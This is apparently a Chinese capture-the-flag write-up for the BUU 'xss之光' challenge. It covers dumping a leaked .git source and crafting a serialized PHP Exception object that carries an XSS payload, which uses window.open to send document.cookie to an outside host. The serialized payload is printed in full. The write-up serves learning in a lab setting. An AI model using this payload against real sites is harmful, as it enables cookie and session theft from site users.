 ```yaml
---
{"dg-publish":true,"title":"BUU_[BJDCTF 2nd]xss之光","dg-path":"安全/靶场/BUU_[BJDCTF 2nd]xss之光.md","permalink":"/安全/靶场/BUU_[BJDCTF 2nd]xss之光/","dgPassFrontmatter":true}
---
```


进去发现就只有
![Pasted image 20241104211409.png](/img/user/picture/Pasted%20image%2020241104211409.png)

通过网站目录扫描工具，发现有git源码泄露
![Pasted image 20241104211630.png](/img/user/picture/Pasted%20image%2020241104211630.png)


用[git-dumper]()下载其源码
```shell
git-dumper http://website/ /root/workspace/tmp/
```

![Pasted image 20241104211844.png](/img/user/picture/Pasted%20image%2020241104211844.png)
发现其源码是一个反序列化，但是没有定义类，所以就利用php原生类
根据这一个题的题目可以推测这一个题的目的是利用XSS
最常见的就是利用XSS去获取Cookie

![Pasted image 20241104212738.png](/img/user/picture/Pasted%20image%2020241104212738.png)
可以看到php版本为5，所以我们要使用Exception类。

```php
<?php  
$poc = new Exception("<script>window.open('http://2b0f6770-883e-4dca-9d2d-8035b93f4cd7.node5.buuoj.cn/'+document.cookie);</script>");  
echo urlencode(serialize($poc));  
?>
```

输出：
```txt
O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A108%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2F2b0f6770-883e-4dca-9d2d-8035b93f4cd7.node5.buuoj.cn%2F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A35%3A%22C%3A%5CUsers%5C29495%5CDesktop%5Ctmp%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

执行后发现flag就在cookie中
![Pasted image 20241104213400.png](/img/user/picture/Pasted%20image%2020241104213400.png)


这一题具体怎么获取的cookie我并不是很清楚，应该是只要用XSS执行了跳转，服务器就会将cookie返回给你

